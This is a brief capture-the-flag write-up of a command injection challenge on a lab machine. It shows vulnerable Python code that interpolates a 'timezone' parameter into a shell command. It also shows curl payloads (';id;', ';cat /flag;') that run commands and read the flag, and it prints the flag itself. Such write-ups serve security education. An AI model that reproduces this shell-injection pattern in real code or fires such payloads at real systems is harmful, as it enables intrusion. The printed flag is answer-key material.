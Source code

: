 # Level 2

we are given with a task to `Exploit a command injection vulnerability` 💉

We are given with the machine and souce code of the challenge

```py {3} copy
def level2():
    timezone = request.args.get("timezone", "UTC")
    return subprocess.check_output(f"TZ={timezone} date", shell=True, encoding="latin")
```

We can see that the `timezone` parameter is passed to the `TZ` environment variable and then the `date` command is executed
Its a simple command injection vulnerability

We can use `;<command>;` to execute multiple commands

```sh
hacker@web-security-level-2:~$ curl -X GET "http://challenge.localhost/?timezone=;id;"
uid=0(root) gid=1000(hacker) groups=1000(hacker)
```
Retriveing flag
```sh
hacker@web-security-level-2:~$ curl -X GET "http://challenge.localhost/?timezone=;cat%20/flag;"
pwn.college{kEStc55WSBI8_z_G5tHSe0-T_oL.dhDOzMDL0IzMyMzW}

```
